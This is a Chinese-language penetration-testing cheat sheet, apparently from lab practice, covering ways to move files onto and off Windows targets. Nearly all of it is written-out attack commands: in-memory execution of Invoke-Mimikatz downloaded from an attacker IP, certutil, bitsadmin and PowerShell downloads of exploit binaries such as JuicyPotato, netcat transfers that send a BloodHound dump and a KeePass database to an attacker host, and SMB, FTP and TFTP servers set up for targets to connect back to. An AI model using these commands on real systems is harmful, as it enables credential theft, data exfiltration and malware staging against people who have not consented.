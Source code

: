 # 引入Invoke-Mimikatz.ps1，并且在内存中执行
```
iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
```


# certuti
```
certutil -urlcache -split -f "http://192.168.49.102/JuicyPotato.exe" JuicyPotato.exe
```

# bitsadmin.exe
```
bitsadmin.exe /transfer /Download /priority Foreground http://10.13.21.169/exp.exe C:\Users\thm\Desktop\exp.exe
```

# nc

接收文件
```
nc -lvp 139 > 20220518030433_BloodHound.zip
```

传送文件
```
nc.exe 192.168.119.149 139 < 20220518030433_BloodHound.zip


cmd.exe /C nc.exe 10.10.16.4 443<CEH.kdbx   #如果是ps的shell
```


# powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/nc.exe','C:\temp\nc.exe')"

```

# smb

## 使用smbclient
```
smbclient -c 'put <文件名>' -U <用户名> -W <域前缀> '//<主机名>/<文件夹>/' <用户密码>

smbclient -c 'put max.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
```

## kali创建smb分享文件夹
在linux创建一个临时smb分享目录,文件夹：s，用户名：max，密码：s3cureP@ssword 
```
/usr/share/doc/python3-impacket/examples/smbserver.py s . -smb2support -username max -password s3cureP@ssword 


/usr/share/doc/python3-impacket/examples/smbserver.py s . -smb2support  # 没有密码，直接访问
```

在windows连接这个这个smb服务

```
net use \\10.50.102.104\share  /USER:max s3cureP@ssword
```

如：
```
PS C:\xampp\htdocs\resources\uploads> net use \\10.50.102.104\share  /USER:max s3cureP@ssword
net use \\10.50.102.104\share  /USER:max s3cureP@ssword
The command completed successfully.
```

从kali上拷贝文件到windows
```
PS C:\xampp\htdocs\resources\uploads> copy \\10.50.102.104\share\nc.exe .
copy \\10.50.102.104\share\nc.exe .

```



# ftp

思路，在kali上安装一个ftp服务，方便靶机（多数时候是windows）回连传送文件

1. kali安装ftp
```
sudo apt update && sudo apt install pure-ftpd
```

2. 编写自动化创建用户脚本

下面会创建一个叫offsec的ftp用户，密码运行脚本时会要求输入
```
kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash

sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
sudo cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

3. 执行
```
chmod +x setup-ftp.sh
sudo ./setup-ftp.sh
```

4. 连接
用户是offsec
密码：上面的自定义密码
```
ftp [kali的IP]
```

# tftp
适用于比较旧的windwos操作系统(比如Windows XP 和 2003)传送文件，默认情况下tftp不安装在运行 Windows 7、Windows2008 年及更新版本

> TFTP是一种基于 UDP 的文件传输协议，通常受公司出口防火墙规则的限制。


1. kali安装tftp
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

2. windows上使用tftp
以下模拟widows向kali传送一个important.docx文件
```
tftp -i 10.11.0.4 put important.docx
```


tftp -i 192.168.119.156 get mimilove.exe

tftp -i 192.168.119.156 get test.txt


# ssh建立一个实时的共享文件夹

1. kali执行,这里输入vps的ssh密码
```
ssh -D <pxy转发端口> -R 10000:127.0.0.1:22 <vps user>@<vps IP>
```

例子：
```
ssh -D 9051 -R 10000:127.0.0.1:22 root@207.246.124.194
```

2. vps上执行，这里输入kali 的ssh密码
```
sshfs -p 10000 localuser@127.0.0.1:<local-path> <vps-path>
```

例子，把vps的```/tmp```目录映射到kali的```/root/tmp```
```
sshfs -p 10000 root@127.0.0.1:/root/tmp /tmp
```


# scp

1. 从本地上传文件到远程计算机或服务器的命令如下：
先进入本地目录下，然后运行如下命令：
```
scp my_local_file.zip root@192.168.1.104:/usr/local/nginx/html/webs
```

2. 从远程主机复制文件到本地主机(下载)的命令如下：（假如远程文件是about.zip）
先进入本地目录下，然后运行如下命令：
```
scp root@192.168.1.104:/usr/local/nginx/html/webs/about.zip .
```

# pscp

```
C:\Payloads>pscp root@kali:/tmp/msf.bin .
msf.bin                   | 196 kB | 196.6 kB/s | ETA: 00:00:00 | 100%
```